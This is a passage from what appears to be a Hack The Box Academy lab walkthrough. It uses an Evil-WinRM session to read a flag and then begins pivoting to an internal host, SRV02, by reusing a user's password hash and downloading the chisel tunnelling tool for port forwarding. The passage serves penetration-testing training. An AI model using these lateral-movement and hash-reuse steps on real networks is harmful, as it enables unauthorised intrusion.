 Code: shell

```shell
type C:\Users\frewdy\Desktop\flag.txt
```

```
*Evil-WinRM* PS C:\Users\Frewdy\Documents> type C:\Users\frewdy\Desktop\flag.txt 
```

Answer: `Testing_WINRM_Connection`

# Windows Remote Management (WinRM)

## Question 2

### "Use Leonvqz hash to connect to SRV02 and read the flag located at C:\\Users\\Leonvqz\\Desktop\\flag.txt"

Students will reuse the previously established WinRM session and will proceed to ping `SRV02`:

Code: shell

```shell
ping SRV02
```

```
*Evil-WinRM* PS C:\Users\Frewdy\Documents> ping SRV02

Pinging SRV02.inlanefreight.local [172.20.0.52] with 32 bytes of data:
Reply from 172.20.0.52: bytes=32 time=1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.52:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

Subsequently, students will come to know that `SRV02` is part of an internal network, meaning that they will have to establish dynamic port-forwarding using a [chisel](https://github.com/jpillora/chisel). On their workstations, students will proceed to download the respective versions for Linux and Windows from the [releases](https://github.com/jpillora/chisel/releases/tag/v1.9.1):

Code: shell

```shell
wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz; wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
```

```
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz; wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
```
